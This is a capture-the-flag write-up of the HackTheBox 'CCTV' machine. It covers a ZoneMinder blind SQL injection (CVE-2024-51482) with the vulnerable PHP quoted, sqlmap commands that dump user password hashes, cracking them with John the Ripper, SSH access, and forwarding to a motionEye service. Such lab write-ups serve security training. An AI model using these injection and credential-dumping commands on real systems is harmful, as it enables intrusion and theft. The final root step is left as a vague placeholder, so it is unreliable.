






<div align="center">

# Breaking into CCTV: SQL Injection to Root on HackTheBox


**Machine**: [https://app.hackthebox.com/machines/CCTV](https://app.hackthebox.com/machines/CCTV)  
**Difficulty**: Easy

</div align="center">

## Introduction

The HackTheBox machine `CCTV` presents a realistic penetration testing scenario involving a video surveillance system. The initial foothold comes from exploiting **CVE-2024–51482**, a boolean-based blind SQL injection vulnerability in **ZoneMinder**. From there, we extract credentials, gain SSH access, and leverage a secondary vulnerability in a locally-running service (motionEye) to escalate to root.

This write-up focuses on my thought process behind each step from enumeration to privilege escalation.

## Enumeration

We start with a full port scan to discover the attack surface. The scan reveals 2 open ports:

```bash
nmap 10.129.244.156 -sC -sV -Pn -T4 -p- --min-rate 100 -oX scan.xml
```

```text
Nmap scan report for cctv.htb (10.129.244.156)
Host is up (0.47s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: SecureVision CCTV & Security Solutions
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 suggests that a web server is running, so I added cctv.htb to `/etc/hosts` and navigated to http://cctv.htb.



I was presented with a front-facing corporate website for `SecureVision`, a security company that sells and manages CCTV systems, access control, and security consultation services. No obvious vulnerabilities are present on the front page, just a Staff Login link. Navigating to the login page reveals the ZoneMinder login page.


Before attempting complex exploitation, I tested for default credentials. ZoneMinder historically uses `admin:admin` as the default credentials, and it succeeded. I was able to log in as admin.



After logging into the ZoneMinder console, the first step was to identify the exact version. In the top‑right corner of the interface, the version number was displayed: `v1.37.63`. Knowing the exact version allows me to search for known vulnerabilities. After researching, I came across this article explaining **CVE‑2024‑51482**, a boolean‑based blind SQL injection vulnerability affecting ZoneMinder versions prior to `1.37.65`. The vulnerability exists in the `web/ajax/event.php` endpoint, where the `tid` parameter is directly concatenated into an SQL query without parameterization. The vulnerable code is:

```php
case 'removetag' :
    $tagId = $_REQUEST['tid'];
    dbQuery('DELETE FROM Events_Tags WHERE TagId = ? AND EventId = ?', array($tagId, $_REQUEST['id']));
    $sql = "SELECT * FROM Events_Tags WHERE TagId = $tagId";
    $rowCount = dbNumRows($sql);
    if ($rowCount < 1) {
      $sql = 'DELETE FROM Tags WHERE Id = ?';
      $values = array($_REQUEST['tid']);
      $response = dbNumRows($sql, $values);
      ajaxResponse(array('response'=>$response));
    }
```

Because `$tagId` is used directly in the second SQL query, an attacker can inject arbitrary SQL. The injection is boolean‑based blind. The page doesn’t return data directly, but changes in behavior (such as a successful or failed deletion) can be observed to infer data. The target URL that exploits this vulnerability is:
http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1

I tested for the vulnerability by injecting a payload that would break the SQL string and it returned an HTTP **500** error, confirming that it was vulnerable.



Now that we have a valid session cookie (from logging in as admin), we can use sqlmap to enumerate the database:

```bash
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' --cookie 'ZMSESSID=qj2q8jr8salrhk72gmv90g1qar' --batch -p tid --current-db
```

```text
<snip>
[19:36:42] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: tid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: view=request&request=event&action=removetag&tid=1 AND (SELECT 6637 FROM (SELECT(SLEEP(5)))IoUe)
---
[19:36:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[19:36:43] [INFO] fetching current database
[19:36:43] [INFO] resumed: zm
current database: 'zm'
<snip>
```
This revealed that the database in use is `zm`. I enumerated the database further and found a table `Users`.



I then identified the columns in the `Users` table and dumped the `Username` and `Password`. After dumping the Users table, I obtained three password hashes:

```bash
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' --cookie 'ZMSESSID=9vs3h1ip4h0qus27ddq1dbhbns' --batch -p tid -D zm -T Users -C Username,Password --dump
```

```text
<snip>
Database: zm
Table: Users
[3 entries]
+------------+--------------------------------------------------------------+
| Username   | Password                                                     |
+------------+--------------------------------------------------------------+
| superadmin | $2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm |
| mark       | $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. |
| admin      | $2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m |
+------------+--------------------------------------------------------------+
```
Upon researching, I learn that the format `$2y$10$...` is **bcrypt**:

- $2y$ – indicates bcrypt with the original crypt_blowfish format
- 10$ – cost factor (2^10 rounds)
- The remaining 53 characters are the salt (22 chars) + hash (31 chars)

`Bcrypt` is a slow hashing algorithm, designed to resist brute‑force attacks. However, weak passwords can still be cracked with a good wordlist. I saved the hash for the mark user into a file called mark.hash and used John the Ripper with the bcrypt format and the rockyou.txt word list:

```bash
echo -n '$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.' > mark.hash
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt mark.hash
```

After a few seconds, John cracked the hash:
```text
password123        (mark)
```

## Initial Access

I used the credentials obtained `(mark:password123)` to connect to the machine through SSH:
```bash
ssh mark@cctv.htb
```

## Privilege Escalation
After gaining a low‑privileged shell as `mark`, the next step was to enumerate the system for privilege escalation vectors. I checked for **sudo rights, SUID files, and cronjobs**, but the standard paths did not yield any results. Upon inspecting deeper, I looked for internal services running on the machine:
```bash
mark@cctv:~$ netstat -tulp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 localhost:1935          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:7999          0.0.0.0:*               LISTEN      -                   
tcp        0      0 _localdnsproxy:domain   0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:9081          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8888          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8765          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8554          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 _localdnsstub:domain    0.0.0.0:*               LISTEN      -                   
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN      -                   
tcp6       0      0 [::]:http               [::]:*                  LISTEN      -                   
udp        0      0 _localdnsproxy:domain   0.0.0.0:*                           -                   
udp        0      0 _localdnsstub:domain    0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:bootpc          0.0.0.0:*                           -                   
mark@cctv:~$ 
```

Several internal services were bound to localhost. Among them was port 8765. A quick search revealed that port 8765 is the default port for motionEye, a web‑based frontend for the Motion CCTV software. These services are only accessible from localhost, but with SSH access we can forward them to our attacking machine and interact with them.

## Port Forwarding via SSH
I used SSH local port forwarding to expose the motionEye web interface to my local browser:
```bash
ssh -L 8765:127.0.0.1:8765 mark@cctv.htb
```

The service became accessible locally on port `8765`.



I tried default credentials (`admin` with a blank password) – and I managed to log in.



From here, further exploitation of motionEye `(CVE-2024-xxxxx or command injection via media settings)` allowed me to escalate to root.

## Conclusion
- `CVE-2024-51482` in ZoneMinder allowed blind SQL injection, leading to credential extraction.
- `Weak password` (password123) for user mark was cracked via john.
- `Internal service motionEye (port 8765)` was forwarded via SSH and accessed with default credentials, enabling privilege escalation to root.

This machine demonstrates the importance of:
- Keeping software up-to-date (ZoneMinder was vulnerable).
- Avoiding weak passwords even for bcrypt hashes.
- Not exposing internal services blindly, nor leaving them with default credentials.